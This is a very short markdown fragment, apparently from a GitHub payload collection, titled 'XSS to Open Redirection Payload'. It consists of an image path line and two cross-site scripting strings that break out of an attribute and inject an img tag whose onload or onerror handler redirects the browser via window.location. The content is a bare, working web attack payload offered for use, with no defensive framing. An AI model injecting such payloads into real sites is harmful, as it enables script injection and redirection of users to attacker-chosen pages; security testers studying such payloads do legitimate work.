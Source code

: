 # Payload

## XSS to Open Redirection Payload:
http://Test"><img src=x onload=window.location="http://google.com">
"><img src=x onerror=window.location="http://google.com">
